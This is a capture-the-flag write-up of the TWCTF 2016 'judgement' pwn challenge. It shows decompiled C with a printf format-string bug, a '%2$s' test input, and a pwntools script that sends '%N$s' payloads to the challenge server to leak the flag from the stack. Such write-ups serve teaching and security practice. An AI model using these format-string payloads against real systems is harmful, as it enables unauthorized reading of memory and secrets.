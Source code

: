 ```yaml
---
title: '[TWCTF-2016: PWN] judgement Writeup'
author: Megabeets
type: post
date: 2016-09-04T23:54:32+00:00
url: /twctf-2016-pwn-judgement/
categories:
  - TWCTF 2016
  - Writeups
tags:
  - CTF
  - PWN
  - TWCTF
  - Writeups

---
```

Guest post by Shak.

> **Challenge description:**  
> _Host : pwn1.chal.ctf.westerns.tokyo_  
> _Port : 31729_  
> [judgement][1]{.attachment}

* * *

<pre class="theme:plain-white striped:true lang:sh decode:true">[Megabeets]$ nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag &gt;&gt; FLAG
FLAG
Wrong flag...
</pre>

<span style="font-weight: 400;">Let’s check the binary. The following function is reading the flag from a local file on the server, so this binary will not reveal the flag, but further examining it might.</span>

<pre class="toolbar:1 lang:c decode:true " title="From Hex-Rays Decompiler">int __cdecl load_flag(char *filename, char *s, int n)
{
  int result; // eax@2
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *v5; // [sp+1Ch] [bp-Ch]@5

  stream = fopen(filename, "r");
  if ( stream ) {
    if ( fgets(s, n, stream) ) {
      v5 = strchr(s, 10);
      if ( v5 )
        *v5 = 0;
      result = 1;
    }
    else { result = 0;}
  }
  else { result = 0; }
  return result;
}
</pre>

<span style="font-weight: 400;">Next we can see the main function which gets our input and compares it to the flag. </span>

<pre class="toolbar:1 lang:c decode:true " title="From Hex-Rays Decompiler">int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // esp@1
  int result; // eax@2
  int v5; // ecx@6
  char input; // [sp+0h] [bp-4Ch]@1
  int v7; // [sp+40h] [bp-Ch]@1
  int *v8; // [sp+48h] [bp-4h]@1

  v8 = &argc;
  v7 = *MK_FP(__GS__, 20);
  v3 = alloca(144);
  printf("Flag judgment system\nInput flag &gt;&gt; ");
  if ( getnline(&input, 64) ) {
    printf(&input);
    if ( !strcmp(&input, flag) )
      result = puts("\nCorrect flag!!");
    else
      result = puts("\nWrong flag...");
  }
  else {
    puts("Unprintable character");
    result = -1;
  }
  v5 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}
</pre>

<span style="font-weight: 400;">What it also does, is printing our input with no formatting (line 15), which means we can use <em>printf</em> format to read data from the stack. First of all, let’s check if this will work by trying to print the second value from the stack as a string</span>

<pre class="theme:plain-white lang:sh decode:true">Flag judgment system
Input flag &gt;&gt; %2$s
פJr≈
Wrong flag…</pre>

<span style="font-weight: 400;">It works, but no luck there. I wrote a simple python script that will print the first 300 values from the stack and search for the flag:</span>

<pre class="lang:python decode:true ">#!/usr/bin/python

from pwn import *

for i in xrange(1,300):
        r = remote('pwn1.chal.ctf.westerns.tokyo', 31729)
        r.recv()
        r.sendline("%{}$s".format(i))
        try:
                res = r.recv()
                if "TWCTF" in res:
                        print "The flag is: " + res
                        break
        except:
                pass
        r.close()</pre>

<span style="font-weight: 400;">And indeed we get it:</span>

<pre class="theme:plain-white lang:sh mark:8 decode:true ">[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 31729
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
.
.
.
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
The flag is: TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Wrong flag...
</pre>

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://twctf7qygt6ujk.azureedge.net/uploads/judgement-4da7533784aa31b96ca158fbda9677ee8507781ead6625dc6d577fd5d2ff697c